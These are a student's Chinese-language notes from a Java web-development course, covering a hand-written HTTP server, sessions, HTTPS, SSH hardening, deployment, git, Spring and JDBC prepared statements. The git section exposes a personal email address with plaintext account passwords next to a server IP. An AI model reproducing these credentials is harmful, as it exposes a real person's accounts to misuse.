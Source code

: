 -------------------------------------第1课笔记----------------------------------
* 合理利用复制粘贴
* 挖掘共性 使程序易于修改
* 使用循环处理大量重复语句
* 使用函数封装一系列行为

-------------------------------------第2课笔记----------------------------------
* 函数中 传进来的参数用另外的变量接住 尽量避免直接修改
* 函数内的变量和函数外的变量应互相不影响
* 写what不写how how封装到函数中
* command+鼠标左键 跳转到函数定义
* 写一小段运行一小段 确保正确性
* 标准库类似汉语字典 不必执着于全部搞懂
* Idea中option+回车自动import

-------------------------------------第3课笔记----------------------------------
* 避免用到没教的知识
* 区别double和Double
* 编程能力体现于知道修改哪里
* 双击shift 输入jconsole 可试验一些小片段代码
* 类型强制转换
方式一: (int) (y + 0.5 * h)向下取整 精度损失更高
方式二: a.intvalue()四舍五入
* 函数内适当运用空行使逻辑更清晰
* 一段代码重复运用3次以上推荐封装成函数
* log大法 1.显示程序运行路径 2.显示变量的值
    log("line1 in l: <%s>", l)
* 首字母大写的是引用类型 String Integer等
  因此字符串比较中 ==只能比较地址 equals()比较的是地址指向的字符串
* 模板字符串
* 字符串切片 s.substring(0,3) 左闭右开

-------------------------------------第4课笔记----------------------------------
* (Double)a / (Double)b
* 测试函数 ensure(condition, message)
  判断:实际结果==预期结果 如果不等输出message
* break跳出最近一层循环 continue跳过本次进入下次循环
* 可将break的条件放入循环头部的判断条件中
* ArrayList初始化

-------------------------------------第5课笔记----------------------------------
* idea中只需输入main可自动补全
  补全的快捷键是Tab
* 类中:属性(变量)+方法(函数)
  this.name中this指当前实例
* static String classname;
  对student1.classname修改会影响student2.classname
  因为classname是和类绑定的不是和实例绑定的
* private 仅内部可访问

-------------------------------------第6课笔记----------------------------------
* try(xxx) 实现资源自动释放
* StringBuilder便于拼接字符串
* 服务器做的三件事
  接受请求->处理请求->返回响应

-------------------------------------第7课笔记----------------------------------
* 浏览器端:
1 创建一个URL类的实例 分离url的参数并存储
2 构造请求 传入path和host
3 创建socket实例 传入host和port (用try实现资源自动释放和捕获异常)
4 调用socketSendAll发送请求给服务器
5 调用socketReadAll获取响应
* 服务器端:
1 服务器启动 创建serverSocket实例(用try实现资源自动释放和捕获异常)
2 监听到浏览器发起的请求后 调用serverSocket.accept()返回一个socket实例
4 调用socketReadAll获取请求(String类型)
5 对非空请求 创建一个Request类的实例r 传入请求
6 调用responseForPath 传入r.path 返回对应的响应(char[]类型)
7 调用socketSendAll发送响应给浏览器



* CDN 调用其他网站上的资源
* <form>的action填path method填请求类型(GET/POST)
  表单内:
  <input>或<textarea>填写query
  点击<button>提交表单(发送请求)
* split对字符串中不存在的符号分片直接返回原字符串
* 在Request类中 GET的参数放入this.query POST的参数放入this.form
* basic64编码后的空格或中文用URLDecoder.decode()转回
* string和bytes间转换注意传入编码为UTF-8

-------------------------------------第8课笔记----------------------------------
* 重构代码
1 Request类与sever类分离
2 每个页面对应一个html文件 路由函数中只需载入html
3 socketSendAll和socketReadAll与sever类分离 提取到SocketOperator类
4 log()、html()等放入Utility类
5 路由函数全部放入Route类
6 html文件放入templates文件夹 图片文件放入static文件夹(静态资源) 同时修改路径
7 每重构一小段代码测试一次服务器

* 留言板
1 判断请求类型及是否带参数 如果带参数 将Request.query或Request.form保存到data
2 从data中提取author和message存入messageList 格式形如"gua: hello"
3 调用replace将html页面中的{messages}替换成存储的留言
4 Message类:存储author和message 并覆写toString方法
5 messageListHtml():留言在html页面上的显示形式
6 MessageService类:数据的add()、save()和load()

* 判断reader读取是否结束使用reader.ready()
* strip()去掉字符串首尾空格 对body调用strip()判断body是否存在数据
* 序列化 类->字符串；反序列化 字符串->类
* ORM 类和存储的数据之间相互转换
* 数据操作相关的类（Message和MessageService）放入models文件夹
* import只支持绝对路径 且src文件夹不能出现在绝对路径中
  例如在src下新建guaMVC 然后import guaMVC.Utility

--------------------------------------------------------------------------------
  [留言板]
  交互一
  1 浏览器访问 http://localhost:9000/message
  2 服务器监听到请求 调用socketReadAll函数获取请求的原始数据
  3 生成一个Request类型的实例r 对原始请求数据进行解析
  4 responseForPath函数根据请求的路径调用routeMessage函数
  5 routeMessage函数根据请求类型GET将请求的query储存到data
  6 判断data为空 调用MessageService的load函数获取文件Message.txt的所有留言MessageList
  7 调用工具类中的html函数载入html.basic.html作为响应的body部分
  8 调用messageListHtml函数将messageList转换为String类型 并替换页面上的标记
  9 拼接完整响应并转换成二进制后 服务器调用socketSendAll函数将响应发送给浏览器

  交互二
  1 浏览器输入留言并点击"GET提交"按钮
  2 服务器监听到请求 调用socketReadAll函数获取请求的原始数据
  3 生成一个Request类型的实例r 对原始请求数据进行解析
  4 responseForPath函数根据请求的路径调用routeMessage函数
  5 routeMessage函数根据请求类型GET将请求的query储存到data
  6 判断data不为空 调用MessageService的add函数将data添加到Message.txt
    调用MessageService的load函数载入文件Message.txt的所有留言MessageList
  7 调用工具类中的html函数载入html.basic.html作为响应的body部分
  8 调用messageListHtml函数将messageList转换为String类型 并替换页面上的标记
  9 拼接完整响应并转换成二进制后 服务器调用socketSendAll函数将响应发送给浏览器

  交互三
  1 浏览器输入留言并点击"POST提交"按钮
  2 服务器监听到请求 调用socketReadAll函数获取请求的原始数据
  3 生成一个Request类型的实例r 对原始请求数据进行解析
  4 responseForPath函数根据请求的路径调用routeMessage函数
  5 routeMessage函数根据请求类型POST将请求的form储存到data
  6 判断data不为空 调用MessageService的add函数将data添加到Message.txt
    调用MessageService的load函数载入文件Message.txt的所有留言MessageList
  7 调用工具类中的html函数载入html.basic.html作为响应的body部分
  8 调用messageListHtml函数将messageList转换为String类型 并替换页面上的标记
  9 拼接完整响应并转换成二进制后 服务器调用socketSendAll函数将响应发送给浏览器

-------------------------------------第9课笔记----------------------------------
# ModelFactory
#### ModelFactory.load(String className, int fieldCount, Deserializer<T> deserializer)

1. 表面上接收一个实现了Deserializer接口的实例 其实是接收一个匿名函数,Java会自动将函数转为实例,该函数覆写了Deserializer接口内的**T deserialize(List<String> modelData)**
,函数体如下:
```
(modelData) -> {
  String author = modelData.get(0);
  String message = modelData.get(1);
  Message m = new Message();
  m.author = author;
  m.message = message;
  return m;
}
```
传入后在**T model = deserializer.deserialize(modelData);**
处调用该匿名函数

2. 数据的转换流程:
```
data          "gua\n123\nbai\n456\n"                                    
modelsData    [gua, 123, bai, 456]                                          
modelData     [gua, 123]等                                                    
model         (author: gua, message: 123)等                                            
models        [(author: gua, message: 123), (author: bai, message: 456)]    
```

# 其他
 类只能继承一个父类 但可以实现多个接口


# [登录]
### 交互一
 1. 浏览器访问 http://localhost:9000/login
 2. 服务器监听到请求 调用socketReadAll函数获取请求的原始数据
 3. 生成一个Request类型的实例r 对原始请求数据进行解析
 4. responseForPath函数根据请求的路径调用RouteUser类的login函数
 5. login函数根据请求类型GET将请求的query储存到data
 6. 判断data为空
 7. 调用工具类中的html函数载入login.html作为响应的body部分并替换页面上的标记
 8. 调用responseWithHeader函数 传入状态码、header和body 返回完整响应的字符串形式
 9. 将响应转换成二进制
 10. 服务器调用socketSendAll函数将响应发送给浏览器

### 交互二
 1. 浏览器输入用户名和密码并点击"登录"按钮
 2. 服务器监听到请求 调用socketReadAll函数获取请求的原始数据
 3. 生成一个Request类型的实例r 对原始请求数据进行解析
 4. responseForPath函数根据请求的路径调用RouteUser类的login函数
 5. login函数根据请求类型POST将请求的form储存到data
 6. 判断data不为空 调用UserService类的validLogin函数判断是否为已注册用户
 7. 调用工具类中的html函数载入login.html作为响应的body部分并替换页面上的标记
 8. 调用responseWithHeader函数 传入状态码、header和body 返回完整响应的字符串形式
 9. 将响应转换成二进制
 10. 服务器调用socketSendAll函数将响应发送给浏览器

# [注册]
### 交互一
 1. 浏览器访问 http://localhost:9000/register
 2. 服务器监听到请求 调用socketReadAll函数获取请求的原始数据
 3. 生成一个Request类型的实例r 对原始请求数据进行解析
 4. responseForPath函数根据请求的路径调用RouteUser类的register函数
 5. register函数根据请求类型GET将请求的query储存到data
 6. 判断data为空
 7. 调用工具类中的html函数载入register.html作为响应的body部分并替换页面上的标记
 8. 调用responseWithHeader函数 传入状态码、header和body 返回完整响应的字符串形式
 9. 将响应转换成二进制
 10. 服务器调用socketSendAll函数将响应发送给浏览器

### 交互二
 1. 浏览器输入用户名和密码并点击"注册"按钮
 2. 服务器监听到请求 调用socketReadAll函数获取请求的原始数据
 3. 生成一个Request类型的实例r 对原始请求数据进行解析
 4. responseForPath函数根据请求的路径调用RouteUser类的register函数
 5. register函数根据请求类型POST将请求的form储存到data
 6. 判断data不为空 调用UserService类的add函数将用户添加到数据库
 7. 调用工具类中的html函数载入register.html作为响应的body部分并替换页面上的标记
 8. 调用responseWithHeader函数 传入状态码、header和body 返回完整响应的字符串形式
 9. 将响应转换成二进制
 10. 服务器调用socketSendAll函数将响应发送给浏览器

-------------------------------------第10课笔记----------------------------------
# Todo
#### /todo
1. 浏览器访问 http://localhost:9000/todo
2. 服务器监听到请求 调用socketReadAll函数获取请求的原始数据并解析
3. responseForPath函数根据请求的路径调用RouteTodo类的index函数
4. 调用工具类中的html函数载入todo_index.html作为响应的body部分
5. 调用TodoService类的todoListHtml函数获取所有todo并替换掉页面上的标记
6. 调用responseWithHeader函数 传入状态码、header和body 返回响应的字符串形式
7. 将响应转换成二进制 服务器调用socketSendAll函数将响应发送给浏览器

#### /todo/add
1. 在todo_index.html页面 输入content 点击"添加todo"按钮
2. 服务器获取请求的原始数据并解析 根据路径调用RouteTodo类的add函数
3. 从原始数据中获取form 传入TodoService的add函数
4. 从form的content属性中获取todo内容 配上其他属性后添加到数据库
5. 调用redirect函数重定向到指定页面

#### /todo/delete
1. 在todo_index.html页面 对id为1的todo点击"删除"按钮
2. 服务器获取请求的原始数据并解析 根据路径调用RouteTodo类的delete函数
3. 从原始数据的query中获取id 传入TodoService的delete函数
4. 根据id删除指定todo并同步到数据库
5. 调用redirect函数重定向到指定页面

#### /todo/update
1. 在todo_index.html页面 对id为2的todo点击"编辑"按钮
2. 服务器获取请求的原始数据并解析 根据路径调用RouteTodo类的update函数
3. 从原始数据中的form中获取id和content 传入TodoService的update函数
4. 根据id更新指定todo并同步到数据库
5. 调用redirect函数重定向到指定页面

# Route.currentUser()
根据cookie 返回指定用户或guest用户
```
public static User currentUser(Request request) {
        if (request.cookies.containsKey("username")) {
            String username = request.cookies.get("username");
            User user = UserService.findByName(username);
            if (user != null) {
                return user;
            } else {
               return UserService.guest();
            }
        } else {
            return UserService.guest();
        }
    }
```


# 其他
* 重定向响应
* todo的增删改查
* 用超链接实现删除和编辑按钮
* 只用来操作数据的路由叫API
* 只用来返回页面的路由叫View
* getOrDefault()
* Cookie实现不同请求的关联
* 登录时服务器的响应要求浏览器Set Cookie\
  之后浏览器发出的任意请求都带该Cookie
* 根据Cookie返回指定用户或游客

-------------------------------------第11课笔记----------------------------------
* 登录时生成一个sessionId映射到u.id 响应中Set-Cookie字段的值即sessionId 将映射保存到哈希表session
* currentUser中 根据sessionId获取用户id
* jwt: 不通过哈希表 只将信息加密成随机字符串 并检测是否被篡改
* session目前具有不可替代性
* 退出登录的实现可以通过删除session中的映射
* session共享 多台服务器之间询问存有session的服务器
* 集群 一台服务器收到大量请求 分发给多台服务器处理(收发响应同理)
* 站在巨人的肩膀上
* session持久化存储
* 用户权限
  1.当需要限制住一个属性的值为指定的几个值
  用枚举定义新类型UserRole
  enum UserRole {
    guest, admin, normal;
  }

  2.管理员身份在数据库手动修改获得
  3.路由函数中 判断是否为游客 游客重定向到登录页面 实现todo页面只能被已注册用户访问
  4.管理员使用的路由不做重定向直接返回404

* 重构
  1.改用路由表处理路由分发 路由表按类型分散存储到对应路由类 在server中载入所有路由表
  2.用/static访问所有图片

* 方法引用 Route:routeIndex

-------------------------------------第12课笔记----------------------------------
# Note12
* CA拥有 **公钥A 私钥a**
* 服务器拥有 **公钥B 私钥b**
* 客户端和服务器共享 **对称密钥C**

#### HTTPS
1. 客户端申请https通信
2. 服务器响应并向客户端传递证书
3. 客户端验证证书, 获取服务器公钥B, 生成对称密钥C, 用B加密后传给服务器
4. 服务器用私钥解密, 获取对称密钥, 并通知客户端.
5. SSL通道建立完成, https通信建立完成
6. 客户端和服务器利用对称密钥进行加密通信

#### 数字证书
1. **申请**:
  服务器本地生成一对密钥
  将明文P(公钥B和其他信息)递交给CA申请数字证书
  CA根据P生成摘要H 用CA私钥a对H进行加密得到数字签名S
  将P和S整合在一起生成数字证书授予服务器
2. **验证**:
   在客户端拿到服务器的数字证书后(即拿到明文P和签名S)
   从明文P中取出服务器公钥B 计算P的摘要H1
   判断是否H1 = H
   用客户端内置的CA公钥A对签名S解密 得到H2
   判断是否H2 = H1
   若H=H1=H2 则证书有效

#### session
 1. 客户端向服务器发送请求
 2. 服务器给客户端分配sessionID
 3. 客户端保存sessionID 之后每次发送请求都带上sessionID
    (当客户端为浏览器时, 默认采用cookie的方式保存sessionID)
 4. 服务器根据sessionID把用户信息临时保存在服务器上, 并设置过期时间

#### 其他
* **摘要** 给定任意长度的文本 生成定长的文本
  用于检查原文是否被篡改或存储用户密码
* **碰撞** 一段摘要对应两个不同的原文
* **加盐** 密码和随机字符串相加 再计算摘要
* **彩虹表** 存储了简单的原文和摘要值的对应关系
* **对称加密** 用同一把密钥加密和解密
* **非对称加密** 公钥加密则只有私钥能解密 私钥加密则只有公钥能解密
  A和B交换公钥 A用B的公钥加密后发送给B B用B的私钥解密得到原文
* **证书链**
  A的证书(根证书)验证A的下属机构B的证书
  B的证书验证服务器的证书
* 反射
* 计算一个文件的md5:md5 <文件路径>
* 密码可通过其他网站查询到 通过加盐避免
* 目前安全性高的 慢hash算法
* 加密可逆 摘要不可逆

-------------------------------------第13课笔记----------------------------------
# gradle
每次修改HTML页面都要重启服务器 因为**gradle是从build中读取资源文件**
#### **目录**:
  * **.gradle** gradle内部自用
  * **.idea** idea内部自用
  * **build** 编译后的输出(类似out)
  * **src.java** 源代码
  * **src.resources** 资源文件

#### **模板引擎freemarker**
  * **配置步骤**
    * 搜索freemarker gradle 复制代码到build.gradle的dependencies内
    * IDE自动下载到External Libraries 点击右上角大象圈圈load gradle changes
    * guaMVC下新建GuaTemplate 拷贝指定配置 import相关class
  * **调用示例**
```
HashMap<String, Object> d = new HashMap<>();
d.put("messages", messageList);
String body = GuaTemplate.render(d, "html_basic.ftl");
```
  * **语法示例**
```
<#list messages as m>
    <#if m.author == "gua">
        <h3>管理员 ${m.author}</h3>
    </#if>

    <h3>
    ${m.author}: ${m.message
    </h3>

    <br>  
</#list>
```
  * freemarker要求**当前类的属性实现get和set方法**(快捷补全:generate -> getter and setter -> 选中要补全的属性)


# 其他
* **用static修饰代码块** 表示只初始化一次
* **模板** 在web开发中 根据后端返回的数据,生成html文档并通过置换等方式渲染,实现view和data的分离,业务代码和逻辑代码的分离
* **数据库**
  * 关系型(MySQL等):类似excel表 增加新字段时 旧有数据也会加上新字段
  * 非关系型(MongoDB等):旧有数据不用增加新字段
* **MySQL**
  * SQL的创表语句 CRUD语句
  * 少量数据的修改使用鼠标操作

-------------------------------------第14课笔记----------------------------------
# gradle安装包的配置
* **注意gradle和.gradle是不同的文件夹**

* idea工程目录的guaMVC/gradle/wrapper下
  * gradle-5.4.1-all.zip(默认联网下载 可先下载到本地再手动导入)
  * gradle-wrapper.jar
  * gradle-wrapper.properties\
(从指定位置导入gradle的zip包 导入后保存到.gradle/wrapper/dists 解压后保存到.gradle/wrapper/dists)

# 添加事件的流程
  * 获得按钮button
  * 定义一个函数func
  * 将按钮与函数绑定
```
常规方式
button.addEventListener('事件名', func)
匿名/回调函数方式
button.addEventListener('事件名', func() {
      回调函数体
})
```

# 纯前端todo
  * 将选择器封装成函数e
  * 调用e取到"添加todo"的button
  * 将click事件与button绑定并定义回调函数
  * 回调函数的操作:
获取todo的文本value
调用todoTemplate将文本拼成一段todoCell
调用insertCell将todoCell插入todoList
[刷新后todoList的数据会消失]

# AJAX
* **概述** 使用JS直接向后端发送请求的API
* **比较**
  * 传统方式:前端先将form表单的数据放入body 再向后端发送完整请求 且响应需要返回完整页面
  * AJAX:前端借助该API将数据发送到后端 后端经过路由函数处理后返回响应(不一定是完整页面) 前端收到响应并调用响应函数
* **实现**
  * 创建AJAX对象
  * 设置请求方法、请求地址和选择异步/同步
  * 设置Content-Type
  * 注册响应函数 (当后端返回响应时调用)
  * 发送请求
* **后端处理** routeImage和parseForm需要新增判断待解析数据是否为JS文件
* **AJAX的优点**
AJAX请求无须刷新整个页面
因为服务器响应内容不再是整个页面，而是页面中的部分内容，所以AJAX性能高

# 其他
* **JS的回调机制及其必要性**
js不支持多线程 监听事件会使程序阻塞 因此只能先将函数传入 让浏览器代为监听(也叫在浏览器上注册) 等到需要调用时再回头调用该函数
* **回调** 强调函数作为参数传入后 等到适当的时机再调用 **高阶函数** 强调函数可作为函数参数和返回值
* **序列化**(JS对象->JSON字符串)和**反序列化**(JSON字符串->JS对象)
* 服务器使用现成的库解析浏览器传输过来的JSON字符串
* 每个HTML标签都有class和id属性
* **script标签的位置** 由于浏览器从上往下渲染的特点 script标签放在body标签闭合之前
* **DOM API** 浏览器提供给JS的操作html页面元素的方式
  * 查找元素(元素选择器 class选择器 id选择器)
  * 操作元素(增,删,改)
* **mdn**+xxx 相关技术文档检索(前端)
* button的**innerHTML**和**innerText**
* JS的**==**会自动转换类型 **===**才是值的比较
* JS中 **var**和**let**的作用域不同 let是新的用法且比var更安全
* **跨域** 在A页面的控制台向B页面发请求
* **CORS**(跨域资源共享)能够克服AJAX的同源限制
https://www.ruanyifeng.com/blog/2016/04/cors.html

-------------------------------------第15课笔记----------------------------------
# MVP Minimum Viable Product
1. **todo的model**
2. **操作场景的文档** （对这些数据做什么操作，这是最重要的一步）
    - 有一个主页，可看到所有todo
    - 主页有一个表单可以添加todo
3. 根据文档**实现 CRUD 和其他操作**
4. **路由函数**
5. **HTML 页面**
6. **用 JS 实现相关页面的逻辑**
7. **美化页面**

# 访问ajaxTodo页面
* 浏览器**发出常规请求** [GET /ajax/todo HTTP/1.1]
* 服务器调用路由函数RouteAjaxTodo::indexView **返回HTML页面**
* 浏览器根据script标签 **发出常规请求** [GET /static?file=ajax_todo.js HTTP/1.1]
* 服务器调用路由函数Route::routeImage **返回ajax_todo.js文件**
* 浏览器执行ajax_todo.js 调用loadTodos() **发出AJAX请求** [POST /ajax/todo/all HTTP/1.1] body为空 并调用bindButtonClick()**注册点击事件**
* 服务器调用路由函数RouteAjaxTodo::all 按JSON格式**返回所有todo**
* 浏览器调用loadTodos()内**AJAX请求的回调函数** 解析响应body的JSON字符串 循环调用TodoTemplate()和insertTodo()
* 得到每个todo的HTML单元并添加到页面 实现在页面上**显示所有todo**

# 输入todo并点击添加按钮
* 在**该按钮的点击事件已注册**的前提下
* 浏览器调用bindButtonClick()中**addEventListener的回调函数**
* **发出AJAX请求** [POST /ajax/todo/add HTTP/1.1] body为{content: input.value}
* 服务器调用路由函数RouteAjaxTodo::add 获取请求的body 转成JSONObject对象 调用getString()获取input.value即todo内容 调用TodoService.add() **将该todo添加到数据库**并返回该todo 将该todo转成JSON格式放入响应的body **返回响应**
* 浏览器调用bindButtonClick()内**AJAX请求的回调函数** 解析响应body的JSON字符串(形如{"completed":false,"content":"heiheihei","id":15}) 得到该todo 调用TodoTemplate()和insertTodo() 得到该todo的HTML单元并添加到页面 实现在页面的所有todo之后**显示新增todo**

# 其他
* **前后端分离** 后端负责数据 前端负责展示
  * 潜在问题: 搜索引擎搜索不到数据 网速导致的首页白屏
  * 解决方法: 服务端渲染SSR 前端自己启用一个服务器拼接来自后端的数据
* **CSS**
  * 内联(直接写在目标标签内)         不建议
  * 统一写在style标签内)            偶尔
  * 外联(从外部导入css文件到HTML)    推荐
* **CSS选择器**
  * 元素选择器
  * class选择器
  * id选择器
* **样式优先级**(从高到低)
  * !important
  * 内联
  * 按顺序执行 后执行会覆盖先执行
* **选择器优先级**(从高到低)
  * !important
  * 内联
  * id选择器
  * class选择器
  * 元素选择器

* **CSS检查器** 从页面调整CSS
* **常用CSS属性**
  * **display** 设置元素如何被展示
  * **position** 设置元素的定位方式
  * **z-index** 设置元素的堆叠顺序
  * **overflow** 设置内容溢出的处理方式
  * **background** 设置背景色/背景图
  * **float** 设置元素向哪个方向浮动
  * block和非block元素的**居中方式**(水平居中 垂直居中 水平垂直居中)
* **盒模型**
* **伪元素、伪类**

-------------------------------------第16课笔记----------------------------------
# 常用Linux命令(见预习)

# 用 key 而不是用 password 来登录的原因
对运行中的服务器而言 每天都会有大量的来自陌生IP的尝试密码登陆

一旦通过密码方式登陆成功将威胁到服务器安全 因此禁用密码登陆 改用密钥登陆

# ssh设置
#### 在本地生成公私钥
    打开终端 输入ssh-keygen命令 .ssh文件夹下将生成两个文件保存一对公私钥 id_rsa 是私钥 id_rsa.pub 是公钥
#### 添加公钥到服务器
    1. 打开filezilla 以用户名ubuntu及相应密码登录服务器
       将公钥文件上传到服务器的/ubuntu目录下[通过filezilla上传公钥比终端上传更安全]
    2. 在终端界面 输入ssh ubuntu@ip命令登录服务器
    3. 输入sudo su命令切换到管理员身份
    4. 输入mkdir -p /root/.ssh命令 root目录下如果没有.ssh文件夹将创建该文件夹
    5. 输入cp /home/ubuntu/id_rsa.pub  /root/.ssh/authorized_keys命令
       将之前通过filezilla上传到服务器的公钥拷贝到.ssh文件夹下的authorized_keys文件内
#### 测试公钥
    输入service ssh restart命令重启ssh
    新建一个终端窗口 输入ssh root@ip命令 测试是否能通过root用户免密登录服务器
#### 关闭密码登录
    1. 打开filezilla 站点管理器->创建新站点
       协议为SFTP 主机为ip 端口为22 登录类型为密钥文件 用户名为root 导入本地生成的私钥文件 点击连接到服务器
    2. 在filezilla界面 进入目录/etc/ssh 编辑sshd_config文件
       修改最后一行PasswordAuthentication的值为no
    3. 在终端界面 登上服务器的前提下 输入service ssh restart命令重启ssh[必须重启! 否则改动不会生效]
    4. 新建一个终端窗口 分别输入ssh root@ip和ssh ubuntu@ip命令测试是否只允许root用户免密登录服务器
    5. 此后在终端只可通过ssh root@ip命令登录服务器 在filezilla通过站点管理器内的站点配置直连服务器

# 防火墙
```
apt install ufw
ufw allow 22
ufw allow 80
ufw allow 443
ufw allow 9000
ufw default deny incoming
ufw default allow outgoing
ufw enable
ufw status verbose
```

-------------------------------------第17课笔记----------------------------------
# 服务器部署
#### 线下部署
* 配置build.gradle并`run ssm[build]`
* bulid/libs目录下出现guaMVC-1.0.jar[解压可查看内容]
  * com/alibaba/fastjson 依赖的库
  * freemarker 依赖的库
  * guaMVC 源代码
  * static 资源文件
  * templates 模板文件
* 使用idea自带terminal运行jar包
  1. 进入jar包所在目录 `cd build/libs`
  2. 确保java命令可用 `java -version`
  3. 运行jar包 `java -Dfile.encoding=UTF-8  -jar guaMVC-1.0.jar`
  4. 校对调用资源路径[参考Utility.java]
    * 从jar包 `/templates/index.html`[因为templates文件夹位于jar包的根目录]
    * 常规方式 `build/resources/main/templates/index.html`
  5. 在jar包外新建数据库
    * ![](assets/markdown-img-paste-20200816111212506.png)
    * 路径示例  `build/libs/db/User.txt`

#### 线上部署
* 使用idea自带terminal
  * 在jar包所在目录下上传jar `scp guaMVC-1.0.jar root@106.53.212.15:/tmp/server.jar`
* 使用Mac的terminal
  1. 登陆服务器 `ssh root@106.53.212.15`
  2. 安装openjdk `apt install openjdk-11-jdk`
  3. 在tmp目录下建立数据库
    1. `mkdir db`
    2. `cd db`
    3. `touch Session.txt`等[User.txt Message.txt Todo.txt]
  4. **在tmp目录下** 运行jar包 `java -jar  /tmp/server.jar`
    1. [后台运行 `java -jar /tmp/server.jar &`]
    2. 运行时所在目录不对会导致找不到db/xxx.txt
    3. 结束运行 control+C
    4.  查看运行中的java程序 `ps aux | grep java`
  5. 访问
    1. Mac下新建一个terminal
    2. 登陆服务器 `ssh root@106.53.212.15`
    3. 服务器端本地访问 `curl localhost:9000`
    4. 打开9000端口 `ufw allow 9000`
    5. 浏览器端访问 输入网址106.53.212.15:9000
* 服务器潜在缺陷
    1. 日志输出
    2. BUG复现
    3. 守护进程
    4. 中文乱码
      * 编辑文件 `nano /etc/environment`
      * 加入内容并保存退出
      ```
      LC_CTYPE="en_US.UTF-8"
      LC_ALL="en_US.UTF-8"
      ```

# git
#### Sourcetree
  * 将桌面的test_git拖到Sourcetree的本地
  * 打开test_git 按住`shift+command+.`显示隐藏文件夹.git
  * 在test_git内新建文件a.txt
  * ![](assets/markdown-img-paste-20200817094921328.png)
  * 暂存a.txt->输入信息->点击提交
  * 分支->新建分支->命名为dev 新建b.txt
  * 分支->双击切换到master->右键dev->合并到master 合并后a.txt和b.txt都是最新改动
  * ![](assets/markdown-img-paste-20200817101713596.png)
  * 远端->origin 推送到远程仓库 可在coding.net内查看

#### Coding [github的国内替代品]
  * 打开Mac自带terminal  
  * `ssh-keygen` 生成一对公私钥 命名为coding
  * `mv coding ~/.ssh` `mv coding.pub ~/.ssh` 将生成的公私钥移动到.shh目录下
  * `cat ~/.ssh/coding.pub` 复制公钥添加到coding.net
  * `ssh-add -K ~/.ssh/coding` 私钥让ssh能够识别

#### clone [coding.net->服务器]
  * root登陆服务器
  * `cd /var`
  * `mkdir www`
  * `git clone 项目的https/ssh连接`
  * 如果是https连接需要输入账号密码 xuluchen0412@gmail.com a123456[密码为coding的服务密码a123456 非登陆密码a123456789/]

#### push [服务器->coding.net]
  * 进入java_test文件夹
  * `touch c.txt`
  * `git status` 可看到c.txt未被跟踪(untracked)
  * `git add c.txt` 纳入跟踪
  * `git commit -m "first commit"` 提交
  * `git log` 查看日志
  * `git push` 输入账号密码

#### pull [coding.net->服务器]
  * 在coding.net界面 在线修改c.txt并提交
  * 在服务器端 `git pull`

# 其他
  * 服务器和coding.net之间也使用公私钥通信
    * 在服务器端 `ssh-keygen`
    * `cat ~/.ssh/id_rsa.pub` 复制公钥存入coding.net
    * 在var/www目录下 `git clone git@e.coding.net:orion1900/java_test/java_test.git`
  * 在idea右键a.txt->git->add纳入git管理 目录下a.txt由红变绿
  * 框架 tomcat(类似server.java 负责接收请求和返回响应) spring(负责处理请求) Servlet(框架之间的接口规定)
  * BUG
    * sourcetree不能克隆远程仓库到本地的情况下
    * 先使用命令行克隆到本地 `git clone git@e.coding.net:orion1900/java_test/java_test.git`
    * 然后在sourcetree界面手动导入该本地仓库进行管理

-------------------------------------第18课笔记----------------------------------
# Spring
  * Spring Spring MVC Spring Boot
  * Spring boot 默认内置了名为 tomcat 的 http 服务器
  * application.properties 配置
  * 约定大于配置
  * 依赖注入 路由函数均是实例方法 实例化由Spring实现
  * 控制反转

# HelloWorldController
  * @Controller 表明这是一个路由函数
  * @GetMapping('/') 表明只接受GET请求 路径为/
  * 路由函数取出参数的4种方式

# Weibo
  1. 实现 WeiboModel
  2. 实现 WeiboService
  3. 实现 WeiboController
    1. 实现路由 /weibo
    2. 实现路由 /weibo/add
    3. ...
  4. 实现 weibo_index.ftl 等页面

# JDBCDemo
  #### getDataSource()
    1. 创建MysqlDataSource类型的实例dataSource
    2. 设置用户名、密码、服务器IP、数据库名字
    3. 设置时区和编码
    4. 将配置好的dataSource作为返回值返回
  #### MySQL Workbench
    1. 复制工程目录下的schema.sql内的sql语句到Workbench
    2. 执行后将创建数据库ssm和表todo
  #### addBySQL(...)
    1. 获取dataSource、connection和statement
    2. 执行sql语句 `statement.executeUpdate(sql);`
    3. 资源释放
  #### selectBySQL(...)
    1. ...
    2. 执行sql语句 `statement.executeQuery(sql)` 查询结果存入一个ResultSet类型的数据集rs中
    3. 从rs获取查询结果的第一行数据 `rs.first()`
    4. ...
  #### SQL注入 selectBySQLInjection(...)
  #### SQL防注入 selectBySQLSafe(...)
    * ![](assets/markdown-img-paste-20200819104950404.png)
    1. ...
    2. 准备预编译语句 value用"?"代替
    3. 获取PreparedStatement类型的statement
    4. 传入value `statement.setString(1, content);`
    5. ...

# TodoService + MySQL
  #### addBySQL(...)
    1. 创建一个TodoModel命名为m并传入content
    2. ...
    3. 要求数据库返回id `PreparedStatement statement = connection.prepareStatement(sql, Statement.RETURN_GENERATED_KEYS);`
    4. 从statement从获取数据集rs 从rs获取id并存入m
    ```
    // 用try语句实现资源自动释放
    try(ResultSet rs = statement.getGeneratedKeys()) {
                rs.first();
                Integer id = rs.getInt("GENERATED_KEY");
                m.setId(id);
            }
    ```
    5. ...
    6. 返回m
  #### findByIdSQL(...)
  #### allBySQL()

# Spring日志分析

  #### 日志1
  `2020-06-19 16:25:41.556 DEBUG 10995 --- [nio-9000-exec-1] o.s.web.servlet.DispatcherServlet        : GET "/user/profile?id=1", parameters={masked}`

    1. 2020-06-19 16:25:41.556 表示时间 DEBUG 表示日志级别
    2. 10995 是程序运行的进程的 pid [nio-9000-exec-1] 是程序运行的线程相关信息 9000是端口号
    3. o.s.web.servlet.DispatcherServlet 是日志 log 时所处的函数
    4. GET 表示请求方法 "/user/profile?id=1" 表示请求的 url
    5. parameters={masked} 的表示参数被隐藏 即请求参数不在日志中显示

